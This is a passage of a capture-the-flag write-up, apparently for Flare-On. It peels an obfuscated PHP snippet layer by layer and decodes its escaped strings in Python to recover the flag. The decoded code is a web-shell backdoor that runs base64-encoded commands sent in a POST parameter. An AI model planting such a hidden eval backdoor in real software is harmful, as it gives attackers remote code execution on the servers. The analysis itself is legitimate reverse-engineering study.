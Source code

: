 To de-obfuscate the code, I simply replaced the `eval` function with an `echo`:

```php
$_ = 'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9';
$__ = 'JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7';
$___ = "\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";

eval($___($__));
```

This one is a little more complicated. First, the variable `$___` is the string `base64_decode` encoded to hex/decimal notation.

Once again, replacing `eval` with `echo` reveals the next block of code:

```php
$code = base64_decode($_);
eval($code);
```

Once more:

```php
if(isset($_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D"]))
{
    eval(base64_decode($_POST["\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D"]));
}
```

To decode the two strings, I used some python code:

```py
l = [97, 49, 49, 68, 0x4F, 84, 116, 0x68, 97, 0x74, 0x44, 0x4F, 0x54, 0x6A, 97, 0x76, 0x61, 0x35, 0x63, 0x72, 97, 0x70, 0x41, 84, 0x66, 0x6C, 97, 0x72, 0x65, 0x44, 65, 0x53, 72, 111, 110, 68, 79, 84, 99, 0x6F, 0x6D]
"".join([chr(x) for x in l])
# a11DOTthatDOTjava5crapATflareDASHonDOTcom

m = [97, 49, 0x31, 68, 0x4F, 0x54, 116, 104, 0x61, 116, 0x44, 79, 0x54, 106, 97, 118, 97, 53, 0x63, 114, 0x61, 0x70, 65, 84, 102, 0x6C, 0x61, 114, 101, 0x44, 65, 0x53, 72, 111, 0x6E, 0x44, 0x4F, 84, 99, 0x6F, 0x6D]
"".join([chr(x) for x in m])
# a11DOTthatDOTjava5crapATflareDASHonDOTcom
```

In both cases, the resulting decoded string is `a11DOTthatDOTjava5crapATflareDASHonDOTcom`, so the flag should be the following:

```txt
a11.that.java5crap@flare-on.com
```
